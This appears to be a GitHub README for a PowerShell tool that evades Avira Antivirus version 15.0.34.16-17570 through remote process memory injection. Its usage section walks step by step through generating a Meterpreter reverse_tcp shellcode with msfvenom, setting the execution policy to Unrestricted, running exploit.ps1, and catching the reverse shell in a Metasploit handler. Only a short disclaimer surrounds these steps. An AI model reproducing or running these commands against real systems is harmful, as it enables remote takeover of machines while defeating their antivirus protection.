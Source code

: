 # Bypass-Avira_Antivirus - Memory Evasion via Remote Process Memory Injection (Powershell)

Description

 Bypass-Avira_Antivirus tool is designed to bypass Avira Antivirus version 15.0.34.16-17570 using memory evasion techniques, specifically remote process memory injection. By using this technique, it becomes possible to execute a custom shellcode undetected by Avira Antivirus

Usage

1. Download Avira Antivirus version 15.0.34.16-17570: The software can be downloaded from [this link](https://www.filepuma.com/download/avira_free_antivirus_15.0.34.16-17570/download/).

2. Create a custom shell using Metasploit's msfvenom:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<port_you_listen> -f powershell

3. Insert the generated shellcode into exploit.ps1.

4. Before running the script, check the current Execution Policy:

powershell Get-ExecutionPolicy -Scope CurrentUser

5. If necessary, set the Execution Policy to Unrestricted:

powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

6. Check the Execution Policy again to ensure it has been set correctly.

7. Execute the exploit by running exploit.ps1 in Powershell:

powershell ./exploit.ps1

8. Listen for the incoming shell using Metasploit:

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <port_you_listen>
run

Disclaimer

This tool is provided for educational and research purposes only. It is essential to ensure you have proper authorization to conduct any security testing on a system. Unauthorized access to or use of computer systems may violate local and international laws. The authors disclaim any responsibility for illegal or unethical use of this tool.

Always seek written permission from the system owner or administrator before conducting any security testing on their systems.

Legal Notice

The usage of this tool may be subject to local and international laws and regulations. It is the user's responsibility to comply with these laws. The authors of this tool shall not be held responsible for any legal issues arising from the misuse of this tool.

Acknowledgments

The authors would like to acknowledge the Metasploit Project and Avira Antivirus for their respective software components used in this tool.

Contact Information

For any inquiries or feedback, please contact the authors at your_email@example.com.

